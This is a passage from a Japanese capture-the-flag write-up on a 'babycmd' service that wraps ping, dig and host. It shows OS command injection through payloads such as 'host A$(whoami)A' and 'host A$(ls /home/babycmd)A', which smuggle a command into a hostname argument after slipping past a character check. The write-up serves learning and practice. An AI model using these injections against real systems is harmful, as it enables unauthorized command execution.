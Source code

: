digとhostに文字列を渡した時の括りがそれぞれ違うことに注目しました。digではシングルクオートで、hostではダブルクオートでくくって引数を渡しています。
シェル上では、ダブルクオートの文字列の中で変数を展開できます。`echo "$SHELL"`とすると*/bin/bash*と出力されるのがいい例です。今回の問題の場合は、`host $SHELL`として標準入力から渡すと、`host "/bin/bash"`として実行されると考えられます。

```
Welcome to another Baby's First Challenge!
Commands: ping, dig, host, exit
: host $PWD
Invalid hostname.
Commands: ping, dig, host, exit
:
```
しかしながら、試しに`host $PWD`として打ってみたところ、引数チェックで引っかかり、*popen*で実行されませんでした。

逆コンパイルの結果、引数チェックでは最初と最後の文字が数字もしくはアルファベットでない場合にエラーとして実行させないようにしていることがわかったので、`host A${PWD}A`として実行してみました。

```
Welcome to another Baby's First Challenge!
Commands: ping, dig, host, exit
: host $PWD
Invalid hostname.
Commands: ping, dig, host, exit
: host A${PWD}A
Host A/A not found: 3(NXDOMAIN)
Commands: ping, dig, host, exit
:
```

変数展開されていることが確認できました。/ディレクトリがカレントディレクトリのようです。

### 攻撃手法：OSコマンド インジェクション
これができることがわかると、次に挑戦したくなるのは変数中のコマンド展開によるOSコマンド インジェクションです。
コマンド展開とは、ダブルクオート中に変数を展開するのと同じ要領で、*$(コマンド)*としてコマンドを実行し、文字列中にコマンドの出力を展開するものです。例として、`echo "$(uname)"`とすると*Linux*と返ってきます。これを用いて実行中のユーザーを確認します。

```
Welcome to another Baby's First Challenge!
Commands: ping, dig, host, exit
: host A$(whoami)A
Host AbabycmdA not found: 3(NXDOMAIN)
Commands: ping, dig, host, exit
:
```

babycmdユーザーとして実行されていることがわかりました。
そこで、ホームディレクトリ内のファイル一覧を取得してみることにしました。

```
Welcome to another Baby's First Challenge!
Commands: ping, dig, host, exit
: host A$(ls /home/babycmd)A
sh: 1: ls/home/babycmd: not found
Host AA not found: 3(NXDOMAIN)
Commands: ping, dig, host, exit
:
```
